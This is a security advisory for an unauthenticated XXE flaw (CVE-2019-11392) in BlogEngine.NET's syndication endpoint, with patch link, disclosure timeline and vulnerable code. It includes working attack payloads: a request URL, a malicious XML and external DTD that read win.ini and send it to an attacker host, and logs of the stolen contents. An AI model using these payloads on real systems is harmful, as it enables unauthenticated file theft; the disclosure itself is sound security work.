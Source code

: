 An Out-of-band XML External Entity attack, CVE-2019-11392, exists on BlogEngine.NET versions 3.3.7 and earlier through the `/syndication.axd` endpoint.  This issue can be exploited to reveal the contents of files on the host. Authentication is not required.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases>

## Timeline

* Identified: 21 Apr 2019
* Initial Developer Contact: 22 Apr 2019
* Issue Disclosed: 18 June 2019

## Description

The vulnerable code can be found here:

~~~{command="SyndicationHandler.cs"}
if (!string.IsNullOrEmpty(context.Request.QueryString["apml"]))
{
	// Finds matches to  an APML file in both posts and pages
	try
	{
		using (var client = new WebClient())
		{
			client.Credentials = CredentialCache.DefaultNetworkCredentials;
			client.Encoding = Encoding.Default;
			using (var stream = client.OpenRead(context.Request.QueryString["apml"]))
			{
				var doc = new XmlDocument();
				if (stream != null)
				{
					doc.Load(stream);
				}
~~~

The **apml** parameter parses an XML located at the path provided by the user.  The path can be on a remote host.

An unauthenticated user can submit a malicious request specifying an external XML such as:

~~~
http://$RHOST/blog/syndication.axd?apml=http://$LHOST/oob.xml
~~~

~~~{.xml command="oob.xml"}
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "https://$LHOST/exfil.dtd">
<foo>&e1;</foo>
~~~

The malicious XML instructs the parser to request a DTD (document type definition) from an external host:

~~~
$RHOST - - [01/Apr/2019:16:34:40 -0600] "GET /exfil.dtd HTTP/1.1" 200 326 "-" "-"
~~~

<pagebreak></pagebreak>

The external DTD is then parsed and instructs the application to read a local file:

~~~{command="ex.dtd"}
<!ENTITY % p1 SYSTEM "file:///C:/WINDOWS/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://$LHOST/EX?%p1;'>">
%p2;
~~~

The contents of the local file, `C:/WINDOWS/win.ini` in the example, are then sent in a subsequent request to the attacker:

~~~
$RHOST - - [01/Apr/2019:16:34:40 -0600] "GET /EX?;%20for%2016-bit%20app%20support%0D%0A[fonts]%0D%0A[extensions]%0D%0A[mci%20extensions]%0D%0A[files]%0D%0A[Mail]%0D%0AMAPI=1%0D%0A[MCI%20Extensions.BAK]%0D%0A3g2=MPEGVideo%0D%0A3gp=MPEGVideo%0D%0A3gp2=MPEGVideo%0D%0A3gpp=MPEGVideo%0D%0Aaac=MPEGVideo%0D%0Aadt=MPEGVideo%0D%0Aadts=MPEGVideo%0D%0Am2t=MPEGVideo%0D%0Am2ts=MPEGVideo%0D%0Am2v=MPEGVideo%0D%0Am4a=MPEGVideo%0D%0Am4v=MPEGVideo%0D%0Amod=MPEGVideo%0D%0Amov=MPEGVideo%0D%0Amp4=MPEGVideo%0D%0Amp4v=MPEGVideo%0D%0Amts=MPEGVideo%0D%0Ats=MPEGVideo%0D%0Atts=MPEGVideo HTTP/1.1" 404 438 "-" "-"
~~~

## [Exploit](exploit.py)

Requests the contents of specified files (or `C:/Windows/win.ini` by default). It then writes the files to the current folder:

~~~{command="C_Windows_win.ini"}
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
~~~
